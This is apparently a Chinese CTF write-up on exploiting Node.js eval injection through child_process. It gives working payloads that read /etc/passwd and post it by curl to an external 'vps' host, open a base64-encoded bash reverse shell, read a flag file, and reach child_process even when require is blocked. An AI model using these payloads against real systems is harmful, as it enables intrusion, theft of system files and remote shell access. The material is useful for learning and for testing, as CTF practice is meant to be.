 ```
/eval?q=require('child_process').exec('curl -F "x=`cat /etc/passwd`" http://vps');;
这个是将执行的命令，curl到自己的服务器上，显示出来。
```

反弹shell

```
/eval?q=require('child_process').exec('echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx|base64 -d|bash');

YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx是bash -i >& /dev/tcp/127.0.0.1/3333 0>&1 BASE64加密后的结果，直接调用会报错。

注意：BASE64加密后的字符中有一个+号需要url编码为%2B(一定情况下)
```

所以这个题的payload

这个地方的`execSync`和`exec`一样的，应该只是版本不同，就相当于`readfile`和`readfileSync`是相同的

```
/?eval=require('child_process').execSync('ls').toString()
/?eval=require('child_process').execSync('cat fl00g.txt').toString()
```

还可以利用`spawnSync`,跟`exec`一样的，都用于开一个子进程执行指定命令。

但是也有不同点，[可以看看这个](https://zhuanlan.zhihu.com/p/64205442)

```
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString()
```

如果require被禁用了，也可以利用这个来引入模块

```
global.process.mainModule.constructor._load('child_process').spwanSync('ls',['.']).toString()
```

**总结**

加载模板：

>require()
>
>global.process.mainModule.constructor._load()

执行命令：

>execSync()
>
>spawnSync()

其他的执行语句

```php
eval("require('child_process').exec('calc');");
setInterval(require('child_process').exec,1000,"calc");
setTimeout(require('child_process').exec,1000,"calc");
Function("global.process.mainModule.constructor._load('child_process').exec('calc')")();
```
